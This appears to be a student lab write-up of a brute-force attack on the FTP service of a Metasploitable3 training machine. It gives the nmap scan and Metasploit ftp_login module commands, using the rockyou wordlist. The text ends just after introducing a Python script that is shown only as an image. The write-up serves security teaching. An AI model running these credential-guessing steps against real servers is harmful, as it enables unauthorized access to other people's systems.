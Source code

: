**FTP Brute-Force Attack on Metasploitable3**

**Objective:** Compromise the FTP service on a Metasploitable3 victim machine using brute‑force techniques.

---

## 1. Environment Setup

### 1.1 Machines and IP Addresses

* **Attacker (Kali Linux)**

  * IP Address: `10.0.2.15`
    ![Figure 1: Attacker Network Configuration](image/Picture1.png)

* **Victim (Metasploitable3)**

  * IP Address: `10.0.2.7`
    ![Figure 2: Victim Machine Overview](image/Picture2.png)

---

## 2. Vulnerability Enumeration

### 2.1 Service Discovery with Nmap

To identify open services on the victim, we ran:

```bash
nmap -sV 10.0.2.7
```

* Key findings: FTP (port 21/tcp), SSH (22/tcp), HTTP (80/tcp), etc.

![Figure 3: Nmap Scan Results](image/Picture3.png)

### 2.2 Selecting the Target Service

The FTP service was chosen because it allows multiple login attempts, making it susceptible to brute‑force attacks.

---

## 3. Attack Execution

### 3.1 Exploitation via Metasploit Console

1. Launch Metasploit:

   ```bash
   msfconsole
   ```
2. Select the FTP login auxiliary module:

   ```bash
   use auxiliary/scanner/ftp/ftp_login
   ```
3. Configure module options:

   ```bash
   set RHOSTS 10.0.2.7
   set USER_FILE /usr/share/wordlists/rockyou.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   set STOP_ON_SUCCESS true
   ```
4. Execute the attack:

   ```bash
   run
   ```

![Figure 4: Metasploit FTP Brute-Force Configuration](image/Picture4.png)

### 3.2 Custom Brute-Force Script

A Python script using `ftplib` was also used to automate login attempts:
![Figure 3: Nmap Scan Results](image/Picture5.png)
